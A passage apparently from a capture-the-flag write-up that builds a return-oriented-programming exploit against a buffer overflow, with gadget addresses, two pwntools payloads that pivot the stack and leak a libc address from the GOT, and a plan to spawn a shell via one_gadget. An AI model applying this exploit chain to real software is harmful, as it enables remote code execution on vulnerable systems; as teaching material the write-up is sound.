 Based on the above output, we have our required addresses to make the attack work.

- gadget1: `0x004005ca`
- gadget2: `0x004005b0`
- init_pointer: `0x00400e38`

Payload 1 is as follows:

```python
elf.sym.payload = 0x601100

payload = p64(gadget1)
payload += p64(0x00)                                # pop rbx
payload += p64(0x01)                                # pop rbp
payload += p64(init_pointer)                        # pop r12
payload += p64(0x00)                                # pop r13 (edi)
payload += p64(elf.sym.payload)                     # pop r14 (rsi)
payload += p64(len(payload2))                       # pop r15 (rdx)
payload += p64(gadget2)
payload += p64(0x00)                                # add rsp,0x8 padding
payload += p64(0x00)                                # rbx
payload += p64(elf.sym.payload - context.bytes)     # rbp
payload += p64(0x00)                                # r12
payload += p64(0x00)                                # r13
payload += p64(0x00)                                # r14
payload += p64(0x00)                                # r15
payload += p64(rop.syscall[0])
payload += p64(mov_eax_1)
```

`mov_eax_1` (0x400569) is simply a `mov eax, 1; leave; ret` gadget found at the end of the main function. After the 2nd payload is written, this gadget will set `eax` to 1 (SYS_write) before migrating the stack to `0x601100` via a stack pivot.

Payload 2 is as follows:

```python
elf.sym.payload = 0x601100

payload2 = flat(rop.rdi[0],     0x1,
                rop.rsi[0],     elf.got.alarm, 0x0,
                rop.syscall[0],
                rop.rbp[0],     elf.sym.payload + 0x200,
                elf.sym.main)
```

This will leak the `alarm@plt` address in the GOT, allowing to derive the correct libc version to calculate offsets. By also leaking the `read@plt` GOT address and confirming the offsets on an online [libc-database](https://libc.blukat.me/), we infer that the libc version used is `2.27` running on `Ubuntu 18.04`. With that out of the way, we can obtain a local copy of the libc shared object to replicate the memory state of the remote process after ASLR, as relative offsets still remain constant from one another. This payloads ends off by jumping us back to the start of the main function where we can perform another round of buffer overflow attack.

Although it is possible to call `system('/bin/sh')` or manually perform a `SYS_execve` call to `/bin/sh`, there's an almost magical option using `one_gadget` that'll give us an offset that when jumped to will spawn a shell provided we fulfill its constraints. Truly the ONE gadget to rule them all!
